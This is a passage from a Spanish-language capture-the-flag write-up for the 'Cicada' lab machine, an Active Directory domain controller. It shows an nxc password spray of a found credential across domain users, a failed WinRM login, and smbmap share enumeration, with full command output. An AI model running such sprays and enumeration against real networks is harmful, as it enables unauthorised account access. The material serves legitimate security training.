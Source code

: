 
Ahora podemos intentar la credencial encontrada con cada usuario.
```console
$ nxc smb 10.129.69.107 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\support:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.69.107   445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```

Vemos que esta credencial es válida para el usuario `michael.wrightson` pero lamentablemente no pertenece al grupo `Remote Management Users`
```console
$ nxc winrm 10.129.69.107 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
WINRM       10.129.69.107   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.69.107   5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

# Enumerating SMB (again)
Ahora vemos que como este usuario tenemos acceso al recurso `NETLOGON` y `SYSVOL`
```console
$ smbmap -H 10.129.69.107 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'                                                  
[+] IP: 10.129.69.107:445       Name: CICADA-DC.cicada.htb                                                                              
        Disk                                                    Permissions     Comment                                                 
        ----                                                    -----------     -------                                                 
        ADMIN$                                                  NO ACCESS       Remote Admin                                            
        C$                                                      NO ACCESS       Default share
        DEV                                                     NO ACCESS
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 

```
